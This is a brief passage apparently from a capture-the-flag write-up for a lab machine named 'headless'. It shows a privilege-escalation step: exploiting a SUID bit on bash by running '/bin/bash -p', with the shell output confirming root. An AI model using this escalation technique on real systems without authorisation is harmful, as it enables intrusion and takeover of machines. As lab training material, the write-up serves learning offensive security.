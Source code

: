 ```
```
The SUID bit was set so let's call bash with '-p' to inherit privileges and go get that root flag!
```
dvir@headless:~$ /bin/bash -p
/bin/bash -p
whoami
root
```